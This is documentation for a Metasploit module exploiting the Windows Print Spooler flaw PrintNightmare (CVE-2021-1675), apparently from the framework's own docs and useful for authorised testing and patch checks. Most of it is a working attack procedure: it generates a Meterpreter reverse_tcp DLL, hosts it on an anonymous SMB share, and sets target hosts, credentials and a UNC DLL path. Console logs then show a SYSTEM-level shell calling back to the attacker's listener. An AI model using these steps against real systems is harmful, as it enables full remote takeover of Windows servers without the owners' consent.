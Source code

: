 ## Vulnerable Application
The print spooler service can be abused by an authenticated remote attacker to load a DLL through a crafted DCERPC
request, resulting in remote code execution as NT AUTHORITY\SYSTEM.

## Verification Steps

1. Optionally, create a DLL payload that the target will execute
    1. From msfconsole
    1. Do: `use payload/windows/x64/meterpreter/reverse_tcp`
    1. Set the `LHOST` and `LPORT` values
    1. Do: `to_handler` to start the payload handler
    1. Do: `generate -f dll -o /path/to/save/the/payload.dll` to generate the DLL file
1. Start an SMB server with anonymous read access containing the DLL payload.
    1. `sudo apt-get install -y samba samba-common`
    1. `sudo cp -pf /etc/samba/smb.conf /etc/samba/smb.conf.bak` to backup your existing config.
    1. `sudo mkdir /var/public`
    1. Add the following into the end of the `/etc/samba/smb.conf` file:
       ```
       [public]
	    comment = Public Directories
	    path = /var/public
	    guest ok = Yes
       ```
    1. Restart Samba with `sudo service smbd restart`.
1. Generate your DLL and place the file under `/var/public`.
    ```
    msf6 auxiliary(admin/dcerpc/cve_2021_1675_printnightmare) > use payload/windows/x64/meterpreter/reverse_tcp
    msf6 payload(windows/x64/meterpreter/reverse_tcp) > show options

    Module options (payload/windows/x64/meterpreter/reverse_tcp):

    Name      Current Setting  Required  Description
    ----      ---------------  --------  -----------
    EXITFUNC  process          yes       Exit technique (Accepted: '', seh, thread, process, none)
    LHOST                      yes       The listen address (an interface may be specified)
    LPORT     4444             yes       The listen port

    msf6 payload(windows/x64/meterpreter/reverse_tcp) > set LHOST 192.168.224.128
    LHOST => 192.168.224.128
    msf6 payload(windows/x64/meterpreter/reverse_tcp) > set LPORT 8822
    LPORT => 8822
    msf6 payload(windows/x64/meterpreter/reverse_tcp) > to_handler
    [*] Payload Handler Started as Job 0

    [*] Started reverse TCP handler on 192.168.224.128:8822
    msf6 payload(windows/x64/meterpreter/reverse_tcp) > generate -f dll -o /home/gwillcox/payload.dll
    [*] Writing 8704 bytes to /home/gwillcox/payload.dll...
    msf6 payload(windows/x64/meterpreter/reverse_tcp) > sudo mv /home/gwillcox/payload.dll /var/public/payload.dll
    ```
1. Exploit the vulnerability to force the target to load the DLL payload
    1. From msfconsole
    1. Do: `use auxiliary/admin/dcerpc/cve_2021_1675_printnightmare`
    1. Set the `RHOSTS` values
    1. Set the `SMBUser` and `SMBPass` values
    1. Set the `DLL_PATH` value to the UNC path to the server and payload DLL like `\\192.168.0.2\public\payload.dll`
    1. Run the module

## Options

### DLL_PATH
The path to the DLL that the server should load. This path can either be a network-based UNC path or a local path on the
remote target. The DLL will be copied to the remote server using the same filename.

If the DLL is a payload generated by Metasploit, know that only a single session can be active per target at any time
due to how these payloads are synchronized. If the session closes, dies, or the user migrates to a new process, the same
DLL can be used again otherwise a new DLL will need to be created for each simultaneously active session. One DLL can
however be used to establish multiple sessions simultaneously so long as each session is on a different target.

If this value is a UNC path, it will automatically be converted to use the `\??\UNC\` prefix instead of `\\` to bypass
the path check in certain scenarios.

### ReconnectDelay
*This is an advanced option.*

A delay in seconds to wait before reconnecting to the named pipe.

While exploiting the vulnerability, it is common for the named pipe connection to be closed. This option specifies a
delay in seconds to wait before reconnecting to the service. A delay that is too short may fail with
`STATUS_OBJECT_NAME_NOT_FOUND`.

## Scenarios

### Windows Server 2019

First, generate the payload DLL or use an existing one. Copy it to the SMB server and note the UNC path. Any DLL can be
used but the architecture must match the host. This example generates a 64-bit Meterpreter payload using the Reverse TCP
stager.

```
msf6 > use payload/windows/x64/meterpreter/reverse_tcp
msf6 payload(windows/x64/meterpreter/reverse_tcp) > set LHOST 192.168.159.128
LHOST => 192.168.159.128
msf6 payload(windows/x64/meterpreter/reverse_tcp) > to_handler
[*] Payload Handler Started as Job 0
msf6 payload(windows/x64/meterpreter/reverse_tcp) >
[*] Started reverse TCP handler on 192.168.159.128:4444

msf6 payload(windows/x64/meterpreter/reverse_tcp) > generate -f dll -o /tmp/reverse_tcp.x64.dll
[*] Writing 8704 bytes to /tmp/reverse_tcp.x64.dll...
msf6 payload(windows/x64/meterpreter/reverse_tcp) >
```

Next, use the module to trigger loading the DLL. Note that when setting the `DLL_PATH` option, the `\` characters are
doubled so that they are escaped on the command line.

```
msf6 payload(windows/x64/meterpreter/reverse_tcp) > use auxiliary/admin/dcerpc/cve_2021_1675_printnightmare
msf6 auxiliary(admin/dcerpc/cve_2021_1675_printnightmare) > set DLL_PATH \\\\192.168.159.128\\public\\reverse_tcp.x64.dll
DLL_PATH => \\192.168.159.128\public\reverse_tcp.x64.dll
msf6 auxiliary(admin/dcerpc/cve_2021_1675_printnightmare) > set RHOSTS 192.168.159.96
RHOSTS => 192.168.159.96
msf6 auxiliary(admin/dcerpc/cve_2021_1675_printnightmare) > set SMBUSER aliddle
SMBUSER => aliddle
msf6 auxiliary(admin/dcerpc/cve_2021_1675_printnightmare) > set SMBPASS Password1
SMBPASS => Password1
msf6 auxiliary(admin/dcerpc/cve_2021_1675_printnightmare) > run
[*] Running module against 192.168.159.96

[*] 192.168.159.96:445 - Target environment: Windows v10.0.17763 (x64)
[*] 192.168.159.96:445 - Binding to 12345678-1234-abcd-ef00-0123456789ab:1.0@ncacn_np:192.168.159.96[\spoolss] ...
[*] 192.168.159.96:445 - Bound to 12345678-1234-abcd-ef00-0123456789ab:1.0@ncacn_np:192.168.159.96[\spoolss] ...
[*] 192.168.159.96:445 - Enumerating the installed printer drivers...
[*] 192.168.159.96:445 - Using driver path: C:\Windows\System32\DriverStore\FileRepository\ntprint.inf_amd64_2097e02ea77b432e\Amd64\UNIDRV.DLL
[*] 192.168.159.96:445 - Using directory: C:\Windows\system32\spool\DRIVERS\x64
[*] 192.168.159.96:445 - RpcAddPrinterDriverEx response 0 ERROR_SUCCESS (The operation completed successfully.)
[*] Sending stage (200262 bytes) to 192.168.159.96
[*] 192.168.159.96:445 - Error STATUS_PIPE_BROKEN (The pipe operation has failed because the other end of the pipe has been closed.)
[-] 192.168.159.96:445 - Error STATUS_PIPE_CLOSING (The specified named pipe is in the closing state.)
[-] 192.168.159.96:445 - Error STATUS_PIPE_CLOSING (The specified named pipe is in the closing state.)
[*] Auxiliary module execution completed
msf6 auxiliary(admin/dcerpc/cve_2021_1675_printnightmare) > [*] Meterpreter session 1 opened (192.168.159.128:4444 -> 192.168.159.96:49732) at 2021-07-02 15:59:30 -0400

msf6 auxiliary(admin/dcerpc/cve_2021_1675_printnightmare) > sessions -i -1
[*] Starting interaction with 1...

meterpreter > getuid
Server username: NT AUTHORITY\SYSTEM
meterpreter > sysinfo
Computer        : WIN-3MSP8K2LCGC
OS              : Windows 2016+ (10.0 Build 17763).
Architecture    : x64
System Language : en_US
Domain          : MSFLAB
Logged On Users : 9
Meterpreter     : x64/windows
meterpreter >
```
